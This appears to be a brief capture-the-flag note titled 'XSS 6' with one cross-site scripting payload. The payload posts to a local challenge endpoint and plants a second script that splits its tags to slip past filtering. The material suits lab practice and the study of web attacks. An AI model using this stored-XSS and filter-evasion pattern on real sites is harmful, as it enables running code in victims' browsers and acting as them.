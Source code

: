 # XSS 6

#### Getting this to post without string errors was trial and error.
```
<script>fetch("http://challenge.localhost/publish", {method: 'POST', headers: {'Content-Type': 'application/json'}, body: JSON.stringify({content: '<scr' + 'ipt>alert(\"PWNED\")</scr' + 'ipt>'})})</script>
```

